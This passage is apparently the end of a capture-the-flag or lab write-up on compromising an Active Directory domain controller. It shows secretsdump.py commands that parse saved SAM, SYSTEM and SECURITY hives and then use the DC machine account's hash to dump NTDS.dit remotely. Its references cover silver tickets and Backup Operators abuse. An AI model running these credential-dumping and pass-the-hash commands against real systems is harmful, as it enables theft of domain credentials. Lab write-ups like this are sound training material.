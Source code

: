 With `secretsdump.py` , we can parse SAM file locally

```bash
secretsdump.py -sam ./SAM.save -system ./SYSTEM.save -security ./SECURITY.save local
```

<img src="https://i.imgur.com/H1zwEqp.png"/>
The administrator hash we get is for DSRM as DC uses NTDS.dit file for the password hashes so we cannot use this hash  as DSRM needs to be enabled, so using the machine account (LusDC) with the hash `a34bee37b205abb8908277c4751d79ea`  we can dump the `NTDS.dit` file 

```bash
secretsdump.py 'LusDC$'@10.10.233.213 -hashes ':a34bee37b205abb8908277c4751d79ea'
```

<img src="https://i.imgur.com/yepcFK8.png"/>

<img src="https://i.imgur.com/oRzttls.png"/>

# References

- https://systemweakness.com/powershell-credentials-for-pentesters-securestring-pscredentials-787263abf9d8
- https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver
- https://raw.githubusercontent.com/Wh04m1001/Random/main/BackupOperators.cpp 
- https://www.youtube.com/watch?v=wUy2VXL2y-w&ab_channel=0xdeaddood

